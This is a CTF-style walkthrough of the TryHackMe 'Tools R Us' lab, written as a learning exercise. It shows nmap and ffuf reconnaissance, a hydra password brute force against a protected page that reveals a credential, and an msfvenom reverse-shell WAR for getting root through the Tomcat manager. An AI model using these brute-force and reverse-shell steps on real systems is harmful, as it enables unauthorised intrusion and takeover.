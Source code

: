 
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Tools%20r%20us/images/126-1.png)

As always, i started with a ports scanning.

```text
nmap -sS -T4 10.10.135.176
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-15 04:50 EST
Nmap scan report for 10.10.135.176
Host is up (0.078s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1234/tcp open  hotline
8009/tcp open  ajp13
```

```text
nmap -sV -sC -p22,80,1234,8009 10.10.135.176
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-15 04:50 EST
Nmap scan report for 10.10.135.176
Host is up (0.057s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:cc:65:72:b9:22:f6:1a:de:49:78:0e:10:7c:e8:91 (RSA)
|   256 57:a7:01:ff:4d:e4:7b:01:c4:f9:92:42:f5:a1:14:fa (ECDSA)
|_  256 27:b3:cd:e8:97:8d:6a:5e:b9:a0:e8:0a:58:77:a0:00 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Tools%20r%20us/images/126-2.png)
I decided to find some hidden directories.

```text
./ffuf -u http://10.10.135.176/FUZZ -w /usr/share/wordlists/dirb/common.txt -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.135.176/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.hta                    [Status: 403, Size: 292, Words: 22, Lines: 12]
                        [Status: 200, Size: 168, Words: 16, Lines: 5]
.htaccess               [Status: 403, Size: 297, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 297, Words: 22, Lines: 12]
guidelines              [Status: 301, Size: 319, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 168, Words: 16, Lines: 5]
protected               [Status: 401, Size: 460, Words: 42, Lines: 15]
server-status           [Status: 403, Size: 301, Words: 22, Lines: 12]
:: Progress: [4615/4615] :: Job [1/1] :: 659 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

In the /guidelines page i found this note 
```text
Hey bob, did you update that TomCat server?
```

In the /protected page i saw this pop u which prompted me to log in.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Tools%20r%20us/images/126-3.png)

I had the username, bob and decided to bruteforce it's password.  
```text
hydra -l bob -P /usr/share/wordlists/1050_passwords.txt -f 10.10.135.176  http-get /protected
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-15 05:02:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1049 login tries (l:1/p:1049), ~66 tries per task
[DATA] attacking http-get://10.10.135.176:80/protected
[80][http-get] host: 10.10.135.176   login: bob   password: bubbles
[STATUS] attack finished for 10.10.135.176 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-15 05:02:45
```
When i logged in, the page contained this message.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Tools%20r%20us/images/126-4.png)

Based on the results of the nmap scan, i visited the service on the port 1234 which displayed the tomcat config page.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Tools%20r%20us/images/126-5.png)  

The page /manager/html can lead to RCE.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Tools%20r%20us/images/126-6.png)  

```text
https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

1.msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.135.176 LPORT=4444 -f war > shell.war
2. upload the WAR file
3. start the listener
4. deploy the file
```
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Tools%20r%20us/images/126-7.png)

It seems this service runs with root privileges.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Tools%20r%20us/images/126-8.png)
